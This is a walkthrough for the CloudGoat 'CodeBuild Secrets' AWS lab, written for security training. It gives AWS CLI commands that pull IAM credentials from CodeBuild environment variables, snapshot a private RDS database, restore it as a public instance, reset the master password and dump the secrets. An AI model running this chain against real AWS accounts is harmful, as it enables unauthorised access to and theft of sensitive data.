










# Scenario 6 - CodeBuild Secrets

## What is the scenario

The scenario begins with security credentials of an IAM user - "Solo" 

The objective is to find a pair of secret strings stored in a secure RDS database.

More scenario details - https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/codebuild_secrets/README.md

## Setting up the scenario

        python3 cloudgoat.py create codebuild_secrets

## Walkthrough

There are multiple routes to completing this secenario. We'll cover them independently.

### Exploitation Route - 1

### Step by step instructions

In this scenario, we have credentials of an IAM User "Solo" to being with.

Let's use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script to quickly verify what we can do with the IAM user "Solo" security credentials.

IAM User "Solo" has some EC2, CodeBuild, RDS, S3 and SSM related permissions.

Let's go ahead with our enumeration using CodeBuild related permissions. We'll list all the CodeBuild projects that IAM user "Solo" has access to.

> [AWS CodeBuild](https://aws.amazon.com/codebuild/) is a fully managed continuous integration service that compiles source code, runs tests, and produces software packages that are ready to deploy. 

        aws codebuild list-projects --profile solo

There is one CloudBuild project. Let's retrieve more information realted to this build project.

                aws codebuild batch-get-projects \
                --names cg-codebuild-cgidxgz5plnjdu \
                --profile solo

                aws codebuild batch-get-projects \
                --names cg-codebuild-cgidxgz5plnjdu \
                --query "projects[*].environment" \
                --profile solo

While enumerating the build project details we can notice that the environment variables of the build project have some IAM security credentials that might possibly belong to an IAM User "Calrissian". To verify the credentials you can create an AWS CLI named profile with the security credentials and run `aws sts get-caller-identity` for that profile.

Let's use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script to quickly verify what we can do with the IAM user "Calrissian" security credentials.

IAM User "Calrissian" has some EC2 and RDS related permissions.

Let's check if there are any RDS instances in the AWS account.

        aws rds describe-db-instances \
        --query "DBInstances[*].[DBInstanceIdentifier, Engine , DBName]" \
        --output text \
        --profile calrissian

There is an RDS instance in the AWS account that is using "PostgreSQL" but it is not publicly accessible. This is our target RDS instance on which the secrets are stored in "securedb" database.

There are various ways to continue our exploitation but let's try to create a snapshot of the running RDS instance and then we will use to snapshot to create another RDS instance that we can control, from which we can extra the secrets.

Let's create a snapshot of the running RDS instance.

        aws rds create-db-snapshot \
        --db-snapshot-identifier secrets-snapshot \
        --db-instance-identifier cg-rds-instance-<CLOUDGOAT-ID> \
        --profile calrissian

Let's create an RDS instance from the snapshot. For us to be able to access the RDS Instance we create publicly, we need to place it in appropriate subnet and also security group.

1. Let's identify the subnet group of the already running RDS Instance. Note the subnet group name

        aws rds describe-db-subnet-groups \
        --query "DBSubnetGroups[?contains(DBSubnetGroupName,'rds')]" \
        --profile calrissian

2. Let's check if there is a security group that allows us to communicate with RDS service. Not the security group identifier

        aws ec2 describe-security-groups \
        --query "SecurityGroups[?contains(Description,'RDS')]" \
        --profile calrissian

Now we have the information required to create an RDS instance from the snapshot appropriately. Let's create an RDS instance from the snapshot.

        aws rds restore-db-instance-from-db-snapshot \
        --db-instance-identifier secrets-instance \
        --db-snapshot-identifier secrets-snapshot \
        --db-subnet-group-name <SUBNET_GROUP_NAME> \
        --publicly-accessible \
        --vpc-security-group-ids <SECURITY_GROUP_NAME> \
        --profile calrissian

Now that we have an RDS instance that we control, let's go ahead and reset the Master User Password for the database.

        aws rds modify-db-instance \
        --db-instance-identifier secrets-instance \
        --master-user-password cloudgoat \
        --profile calrissian

Let's retrieve the information about the new RDS instance we need in order to connect to the database and extract secrets.

        aws rds describe-db-instances \
        --query "DBInstances[*].[DBInstanceIdentifier,Engine,DBName,Endpoint,MasterUsername]" \
        --profile calrissian

Now that we have all the information required to connect to the RDS instance, we can use any PostgreSQL client to connect to the database and extract the secrets, In this case, we are using `psql`, a command line PostgreSQL client - 

        sudo apt install postgresql-client
        psql -h <INSTANCE-PUBLIC-DNS-NAME> -p 5432 -d securedb -U cgadmin

Once we are connected to the database, we can use commands to extract the secrets.

        \dt
        select * from sensitive_information;

### Exploitation Route - 2

### Step by step instructions

## References 

- [AWS CodeBuild](https://aws.amazon.com/codebuild/)
- [AWS CLI - codebuild](https://docs.aws.amazon.com/cli/latest/reference/codebuild/index.html#cli-aws-codebuild)